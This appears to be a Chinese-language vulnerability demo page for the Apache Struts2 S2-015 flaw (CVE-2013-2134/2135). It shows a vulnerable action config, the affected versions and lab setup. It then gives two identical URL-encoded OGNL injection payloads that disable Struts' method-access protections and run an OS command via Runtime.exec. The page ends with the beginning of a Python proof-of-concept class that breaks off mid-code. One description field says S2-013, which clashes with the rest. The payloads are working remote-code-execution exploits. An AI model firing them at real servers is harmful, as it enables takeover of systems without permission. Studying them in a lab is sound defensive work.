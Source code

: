 &emsp;&emsp;&emsp;&emsp;当\\$和%字符组合使用时,ognl表达式会被TextParseUtil.translateVariables二次执行.

```java
<action name="Helloworld" class="org.test.HelloworldAction">
 <result name="success" type="httpheader">
  <param name="headers.foobar">\${message}</param>
 </result>
</action>
```

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.14.2

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 第一种执行命令

```java
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream())%2C%23q%7D.action
```

#### 第二种执行命令

```java
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream())%2C%23q%7D.action
```

### POC

```python
#!/usr/bin/env python3

import re
import urllib
import random
import string
import requests

class S2_015_1_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-015漏洞,又名CVE-2013-2134/CVE-2013-2135漏洞',
            'description': 'Struts2 S2-013漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.14.2',
            'date': '2013-06-03',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.capta = self.get_capta() 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Connection': "keep-alive",
        }
```